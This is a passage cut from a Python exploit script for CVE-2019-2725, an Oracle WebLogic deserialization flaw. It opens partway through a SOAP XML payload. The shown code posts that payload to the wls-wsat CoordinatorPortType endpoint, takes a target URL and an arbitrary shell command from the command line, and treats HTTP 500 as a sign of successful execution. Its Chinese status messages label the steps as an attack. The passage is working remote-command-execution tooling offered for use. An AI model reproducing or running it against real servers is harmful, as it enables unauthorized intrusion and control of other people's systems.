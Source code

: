 ```python
                </object>
            </java>
        </work:WorkContext>
    </soapenv:Header>
    <soapenv:Body/>
</soapenv:Envelope>"""

    headers = {
        'Content-Type': 'text/xml; charset=UTF-8',
        'SOAPAction': '',
        'User-Agent': 'Mozilla/5.0 (compatible; CVE-2019-2725-PoC)'
    }
  
    # 尝试wls-wsat路径
    wsat_url = f"{target_url}/wls-wsat/CoordinatorPortType"
  
    try:
        print(f"[*] 攻击目标: {wsat_url}")
        print(f"[*] 执行命令: {command}")
  
        response = requests.post(
            wsat_url, 
            data=soap_payload, 
            headers=headers, 
            timeout=10
        )
  
        print(f"[+] HTTP状态码: {response.status_code}")
        print(f"[+] 响应长度: {len(response.text)} 字节")
  
        if response.status_code == 500:
            print("[+] 可能攻击成功 (HTTP 500通常表示反序列化触发)")
            return True
        elif response.status_code == 200:
            print("[+] 请求被处理 (需要进一步验证)")
            return True
        else:
            print(f"[-] 攻击失败，状态码: {response.status_code}")
            return False
    
    except requests.RequestException as e:
        print(f"[-] 请求失败: {e}")
        return False

if __name__ == "__main__":
    if len(sys.argv) != 3:
        print("Usage: python3 manual_exploit.py <target_url> <command>")
        print("Example: python3 manual_exploit.py http://10.37.133.3:7001 'id'")
        sys.exit(1)
  
    target = sys.argv[1]
    cmd = sys.argv[2]
  
    exploit_cve_2019_2725(target, cmd)
```
